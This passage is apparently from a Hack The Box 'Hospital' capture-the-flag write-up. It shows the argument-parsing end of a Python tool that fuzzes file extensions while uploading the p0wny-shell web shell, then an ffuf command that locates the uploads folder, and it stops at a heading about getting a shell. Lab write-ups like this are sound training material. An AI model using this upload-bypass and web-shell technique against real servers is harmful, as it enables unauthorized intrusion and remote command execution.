 ```bash

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="upload fuzzing extension tool")
    parser.add_argument("-w", "--wordlist", required=True, help="File containing extensions")
    parser.add_argument("-x", "--webshell", required=True, help="File containing webshell")
    parser.add_argument("-f", "--filename", required=False, default="file", help="filename to use, default 'file' without the extention")
    args = parser.parse_args()

    fuzz_upload(args.wordlist,args.webshell,args.filename)
```

The script is used to upload the [p0wny-shell](https://github.com/flozz/p0wny-shell) while finding valid extensions at the same time.

![uploading p0wny](/assets/img/htb/hospital/uploading_p0wny.png)

After successfully uploading the files, the fuzzing process began to find their storage location using ffuf. The point of interest was the 'uploads' folder, where files were found to be stored with identical names as those used during the upload process. Despite the absence of directory listing functionality in /uploads, the files within the 'uploads' directory retained their original filenames, facilitating their retrieval and exploitation.

```bash
ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt:FUZZ -u http://hospital.htb:8080/FUZZ -o hospital_htb_8080_FUZZ.out -t 15
```

![fuzzing uploads](/assets/img/htb/hospital/ffuf_uploads.png)

## Shell on Linux Server 
